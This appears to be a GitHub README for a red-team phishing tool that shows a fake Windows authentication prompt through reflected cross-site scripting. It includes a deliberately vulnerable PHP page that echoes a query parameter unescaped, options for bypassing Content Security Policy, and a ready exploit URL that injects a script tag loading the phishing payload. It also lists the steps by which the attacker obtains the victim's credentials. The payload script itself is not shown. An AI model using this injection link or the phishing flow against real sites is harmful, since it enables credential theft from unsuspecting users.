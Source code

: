 # [Phish] Windows Authentication Prompt

* **NOTE**: two supported options:
  * no CSP bypass - issue AJAX request
```
...
var bypassCSP = false;
...
```
  * CSP bypass - issue hard redirect (uses `redir.php`)
```
...
var bypassCSP = true;
...
```

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

### Vulnerable Page (`rxss.php`)

```
<!DOCTYPE html>
<html>
  <body>
    <h2>Test page</h2>
    <p>Test content</p>
    <?php echo '<div>' . $_GET['q'] . '</div>'; ?>
  </body>
</html>
```

## Exploitation Steps

1. victim user clicks link

```
http://192.168.5.13/rxss.php?q=<script src=http://192.168.5.13/winph.js></script>
```

2. victim user authenticates

*(attacker obtains credentials)*

## Screenshots

*(Mozilla FireFox)*
![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png)

*(Google Chrome)*
![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png)

*(Microsoft Edge)*
![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png)

*(captured credentials)*
![Image](screenshots/Windows_phish_-_cred_exfil_-_1-1.png)
